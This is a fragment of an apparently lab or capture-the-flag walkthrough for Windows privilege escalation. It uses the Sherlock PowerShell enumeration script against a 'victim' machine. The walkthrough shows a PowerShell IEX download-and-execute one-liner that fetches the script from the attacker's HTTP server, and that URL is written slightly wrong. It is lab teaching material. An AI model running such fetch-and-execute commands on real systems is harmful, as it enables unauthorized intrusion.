



Sherlock
For this box, we're going to utilize a great powershell based privilege escalation enumeration tool called sherlock here's the github for itFirst thing is to move a copy of Sherlock into our working directory:

But before we want to upload it to our victim, there is a quick line of code we'll want to add to the bottom of the script to find vulnerabilities on our victim
Find-AllVulns


Now that our Sherlock script is ready to go, lets Host it via http with SimpleHTTPServer
python -m SimpleHTTPServer

And Download it to the victim with the powershell command:
IEX(New-Object net.webclient).downloadstring('http://10.10.14.62/8000/Sherlock.ps1')
